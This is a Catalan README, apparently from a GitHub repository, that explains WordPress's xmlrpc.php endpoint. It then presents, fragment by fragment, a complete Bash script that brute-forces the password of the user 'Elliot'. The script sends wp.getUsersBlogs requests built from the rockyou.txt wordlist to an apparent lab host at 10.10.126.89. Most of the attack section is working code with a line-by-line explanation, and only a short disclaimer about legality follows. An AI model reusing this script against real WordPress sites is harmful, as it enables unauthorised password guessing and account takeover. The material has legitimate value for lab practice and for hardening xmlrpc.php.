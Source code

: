 # Vulnerar-arxiu-xmlrpc.php
Script per a xmlrpc.php de WordPress


Què és l'arxiu xmlrpc.php?, per a què serveix?

L'arxiu `xmlrpc.php` és un component de WordPress que facilita la comunicació remota entre diferents sistemes a través del protocol XML-RPC. XML-RPC és un protocol de comunicació que utilitza XML per codificar els seus missatges i s'utilitza per realitzar operacions remotas en un servidor.

En el cas específic de WordPress, `xmlrpc.php` permet realitzar diverses accions i consultes al lloc de WordPress de forma remota. Algunes de les funcions que es poden realitzar a través de XML-RPC inclouen:

1. **Publicació de contingut:** Pots crear, editar i eliminar entrades i pàgines al teu lloc de WordPress.
2. **Gestió de comentaris:** Pots aprovar o desaprovar comentaris, obtenir la llista de comentaris i més.
3. **Obtenció d'informació del lloc:** Pots obtenir informació sobre el lloc, com detalls de l'usuari, categories, etiquetes, etc.
4. **Maneig de mitjans:** Pots pujar imatges i altres fitxers multimèdia al teu lloc.

No obstant això, és important destacar que l'ús de XML-RPC també pot representar un risc de seguretat si no es configura adequadament. Alguns atacs a llocs de WordPress han utilitzat aquest arxiu per realitzar sol·licituds malicioses. En conseqüència, en versions més recents de WordPress, és possible que trobis mesures de seguretat que limiten o desactivin l'ús de `xmlrpc.php` per defecte.

Si no necessites utilitzar XML-RPC al teu lloc de WordPress i tens preocupacions de seguretat, pots considerar desactivar o restringir l'accés a `xmlrpc.php`. Això es pot fer mitjançant plugins de seguretat o directament des de l'arxiu `.htaccess` en el teu servidor web.

# L'script

Aquest script serveix per a fer atacs de força bruta a l'arxiu xmlrpc.php:

Aquest script de Bash sembla ser un intent de realitzar un atac de força bruta contra un lloc web WordPress a través de l'arxiu `xmlrpc.php`. Analitzem cadascuna de les parts del script:

1. **Definició de Funcions:**
    ```bash
    function salir() {
        exit 1
    }
    ```
    - Es defineix una funció anomenada `salir()` que simplement surt del script amb un codi de sortida 1.

    ```bash
    trap salir SIGINT
    ```
    - Utilitza `trap` per capturar la senyal SIGINT (per exemple, quan es prem Ctrl+C) i executar la funció `salir()`. Això permet una sortida controlada del script en cas d'interrupció.

2. **Bucle de Força Bruta:**
    ```bash
    for i in $(cat rockyou.txt); do
    ```
    - Inicia un bucle `for` que itera a través de cada línia de l'arxiu `rockyou.txt`, que probablement conté contrasenyes comunes.

3. **Generació de Sol·licitud XML:**
    ```bash
    variable=$(cat <<FIN
    <?xml version="1.0" encoding="UTF-8"?>
    <methodCall> 
        <methodName>wp.getUsersBlogs</methodName> 
        <params> 
            <param><value>Elliot</value></param> 
            <param><value>$i</value></param> 
        </params>     
    </methodCall>
    FIN
    )
    ```
    - Es genera una cadena XML que representa una sol·licitud XML-RPC per a la funció `wp.getUsersBlogs`. Utilitza el nom d'usuari fix "Elliot" i la contrasenya actual del bucle.

4. **Sortida a la Pantalla i Escriptura a l'Arxiu:**
    ```bash
    echo -e "$variable" >> enviar.xml
    echo -e "[+] Provem amb la contrasenya $i"
    ```
    - La cadena XML generada s'afegeix a l'arxiu `enviar.xml`.
    - Es mostra a la pantalla un missatge indicant la contrasenya que s'està provant.

5. **Enviament de la Sol·licitud al Servidor WordPress:**
    ```bash
    curl -s -X POST 'http://10.10.126.89/xmlrpc.php' -d@enviar.xml >> log.log
    ```
    - Utilitza `curl` per enviar la sol·licitud XML al servidor WordPress situat a 'http://10.10.126.89/xmlrpc.php'. La resposta del servidor s'encamina a l'arxiu `log.log`.

6. **Verificació de la Resposta i Sortida del Script:**
    ```bash
    if [ ! "$(cat log.log | grep 'Incorrect username or password.')" ]; then
        echo -e "[+] La contrasenya per a Elliot és $i"
        exit 0
    fi
    ```
    - Verifica si la resposta del servidor conté la cadena 'Incorrect username or password.'.
    - Si no troba aquesta cadena, assumeix que la contrasenya és correcta, mostra un missatge indicant la contrasenya i surt del script.

7. **Espera i Neteja:**
    ```bash
    sleep 1
    rm log.log enviar.xml
    ```
    - Introdueix un retard de 1 segon entre cada intent per evitar bloquejos o restriccions del servidor.
    - Esborra els arxius `log.log` i `enviar.xml` després de cada intent.

En resum, aquest script intenta realitzar un atac de força bruta per trobar la contrasenya de l'usuari "Elliot" en un lloc WordPress específic mitjançant l'enviament de sol·licituds XML-RPC amb contrasenyes de l'arxiu `rockyou.txt`. Tingues en compte que l'ús d'scripts per realitzar atacs de força bruta està en contra de les polítiques de molts llocs web i pot ser il·legal sense el consentiment explícit del propietari del lloc. A més, aquest tipus d'activitats poden tenir conseqüències negatives i s'han de realitzar amb responsabilitat i ètica.
